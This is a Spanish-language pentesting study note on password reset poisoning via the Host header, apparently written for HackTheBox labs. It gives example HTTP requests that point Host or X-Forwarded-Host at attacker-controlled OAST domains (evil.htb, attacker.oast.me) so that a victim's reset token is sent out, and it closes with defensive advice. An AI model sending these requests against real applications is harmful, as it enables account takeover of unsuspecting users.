

---
tags:
  - Web/Red-Team
  - Pentesting/Explotacion
  - HTTP/Host-Header
Descripción: "El Password Reset Poisoning es de los host header attacks más rentables: termina en account takeover"
Fecha de actualización: 2026-07-14
Nota previa: "[[07 - Bypass de autenticación por Host Header]]"
Nota siguiente: "[[09 - Web Cache Poisoning por Host Header]]"
Area: "[[HTTP Misconfigurations.base|HTTP Misconfigurations]]"
---
---

El **Password Reset Poisoning** es de los host header attacks más rentables: termina en <mark style="background: #FFB86CA6;">**account takeover**</mark>. Nace cuando la aplicación construye el **enlace de reset de contraseña** usando el `Host` de la petición. Complementa al [[07 - Reset de contraseña vulnerable|reset de contraseña vulnerable]] del módulo de autenticación — aquí el vector de manipulación es la cabecera `Host`.

# Identificación: ¿usa la app el `Host` para enlaces absolutos?

El primer paso de cualquier host header attack: manipular el `Host` y ver si la respuesta cambia. <mark style="background: #ADCCFFA6;">Si la aplicación genera **enlaces absolutos** en algún sitio, es candidata</mark>. Al enviar `Host: evil.htb`, se observa que los `<link>`/`<script>` de la página se construyen con ese dominio:

```http
GET /profile.php HTTP/1.1
Host: evil.htb
→  <link href="http://evil.htb/style.css">   ← el Host se refleja en enlaces absolutos
```

Por sí solo esto **no** es explotable: el servidor rechaza `Host` con caracteres especiales (no hay XSS directo), y sin [[09 - Web Cache Poisoning por Host Header|cache poisoning]] no puedes forzar el navegador de la víctima a mandar un `Host` manipulado. Pero hay un flujo donde **tú** controlas la petición: el **reset de contraseña**.

# Explotación: robar el token de reset → ATO

La app envía por email un enlace de reset con un **token**. Si construye ese enlace con el `Host`, envías la petición de reset **con el email de la víctima** y un `Host` que apunta a **tu** dominio:



El enlace del email apunta a tu dominio, así que <mark style="background: #8000E1A6;">cuando la víctima hace clic, su token de reset viaja a tu servidor</mark>. Con él, reseteas su contraseña y entras.

# Toolkit de exfiltración OOB

Para capturar el callback se usa un servicio de **interacción out-of-band**:

| Herramienta | Nota |
| - | - |
| **Interactsh** (ProjectDiscovery) | `interactsh-client` o [app.interactsh.com](https://app.interactsh.com); dominio OAST desechable |
| **Burp Collaborator** | Integrado en Burp Pro; el estándar en engagements |
| **webhook.site / canarytokens** | Rápidos para PoC públicos |

```http
POST /reset.php HTTP/1.1
Host: cvv0abc.oast.me            ← tu dominio Interactsh/Collaborator
Content-Type: application/x-www-form-urlencoded

email=admin@httpattacks.htb
```

Se consulta el log del servicio OOB y aparece el `GET /reset?token=...` con el token de la víctima.

> [!important] Variante imprescindible: `X-Forwarded-Host`
> Si el `Host` está validado (allowlist), <mark style="background: #FF5582A6;">prueba `X-Forwarded-Host: attacker.oast.me`</mark>: muchas apps construyen el enlace con la override header sin validarla. También funcionan a veces el `Host` duplicado o inyectar el dominio malicioso en un subdominio/puerto. Repasa las técnicas de [[06 - Introducción a los Host Header Attacks#Cuando no puedes tocar el `Host` directamente (evasión)|inyección de Host]].

> [!warning] Interacción del usuario, pero práctica
> El ataque necesita que la víctima **haga clic** en el enlace. Parece una limitación, pero los emails de reset son **HTML** y ocultan el destino real tras el texto del botón — la víctima no ve el dominio envenenado hasta después de pulsar, y para entonces el token ya está robado. En un lab HTB sin acceso a email, el enlace se "ve" enviando la petición y observando la respuesta; el callback se captura en el vhost local (`interactsh.local/log`).

# Defensa

La correcta: <mark style="background: #FF5582A6;">**no** derivar el dominio del `Host`</mark>. El enlace de reset debe construirse con un dominio **hardcodeado en configuración**, o validar el `Host`/`X-Forwarded-Host` contra una **allowlist** estricta. Además, atar el token a la sesión/usuario y caducarlo rápido reduce la ventana de robo. El resto de prevención de Host Header, en [[11 - Detección, herramientas y prevención de Host Header Attacks]].

## Referencias

- [PortSwigger — Password reset poisoning](https://portswigger.net/web-security/host-header/exploiting#password-reset-poisoning)
- [Interactsh (ProjectDiscovery)](https://github.com/projectdiscovery/interactsh)
